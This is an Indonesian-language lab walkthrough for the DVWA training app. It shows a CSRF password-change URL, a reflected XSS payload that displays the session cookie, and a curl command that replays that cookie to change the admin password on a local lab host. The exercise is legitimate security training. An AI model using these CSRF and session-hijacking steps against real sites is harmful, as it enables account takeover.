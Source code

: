 ## LESSON 10

Inti dari Lesson 10 adalah mendapatkan 4 hal, yaitu:
1. Test **CSRF attack**
2. Capture dan manipulasi **CSRF URL** untuk mengubah **Password** admin
3. Mendapatkan **Cookie Session** menggunakan **Reflecive XSS attack**
4. Membuat **Curl CSRF** untuk mengubah **Password** admin

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. CSRF**
1. Pilih **CSRF** dan masukkan **Password baru** dengan **abc123**

![SS 1](LESSON_10/1.png)

2. Setelah mengganti dengan **abc123**, ubah **Password** tersebut dari **abc123** mejadi **test123** menggunakan **URL**

Sebelum

![SS 2](LESSON_10/2.png)

Sesudah

![SS 3](LESSON_10/3.png)

3. **Copy** **URL** ke dalam **Notepad**

![SS 4](LESSON_10/4.png)

**B. Test Password yang Telah Diubah**
1. Logout dari **DVWA** dan masuk kembali dengan **Password** yang baru *test123*

![SS 5](LESSON_10/5.png)

**C. XSS Reflected**
1. Pilih menu **XSS Reflected** dan masukkan command berikut untuk mendapatkan **Cookie**

```
<script>alert(document.cookie)</script>
```

![SS 6](LESSON_10/6.png)

2. **Copy** **Cookie**

![SS 7](LESSON_10/7.png)

3. **Paste** **Cookie**

![SS 8](LESSON_10/8.png)

**D. Membangun Curl String**
1. Masukkan command berikut untuk membangun **Curl String**

```
curl --cookie "security=low; PHPSESSID=c0o6r5agj13d6ngqspllu9i6b2" --location "http://192.168.1.103/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#"
```

![SS 9](LESSON_10/9.png)

2. Masukkan 

```
| grep "Password Changed" | tee curl.txt

curl --cookie "security=low; PHPSESSID=c0o6r5agj13d6ngqspllu9i6b2" --location "http://192.168.1.103/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#" | grep "Password Changed" | tee curl.txt
```

![SS 10](LESSON_10/10.png)

Hasil

![SS 11](LESSON_10/11.png)

**D. Test Curl String Password Change**
1. Logout dari DVWA dan masuk dengan **Password** baru

![SS 12](LESSON_10/12.png)

2. Jika berhasil maka akan muncul ini

![SS 13](LESSON_10/13.png)

### Kesimpulan Lesson 10

Menggunakan **CSRF** dan **Curl String** dapat mengubah **Password** dari **Admin DVWA**
